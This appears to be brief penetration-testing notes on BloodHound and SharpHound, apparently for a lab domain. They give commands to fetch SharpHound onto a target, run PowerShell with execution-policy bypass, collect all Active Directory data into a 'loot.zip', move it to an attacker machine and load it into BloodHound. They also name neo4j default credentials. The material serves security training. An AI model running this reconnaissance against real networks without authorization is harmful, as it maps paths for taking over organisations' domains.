

# Bloodhound

Link to sharphound to install on the target:


```sh
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
```


Install

```sh
apt-get install bloodhound

#default credentials -> neo4j:neo4j
neo4j console
```

Sharphound on the target machine

<pre class="language-powershell"><code class="lang-powershell">powershell -ep bypass

. .\Downloads\SharpHound.ps1

<strong>Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
</strong></code></pre>

Transfer the loot.zip folder to your Attacker Machine

note: you can use scp to transfer the file if you’re using ssh

```shell
#Run on attacker machine and login with neoj4 credentials
bloodhound
```

import the zip folder

Use Queries to search pre-compiled queries

&#x20;
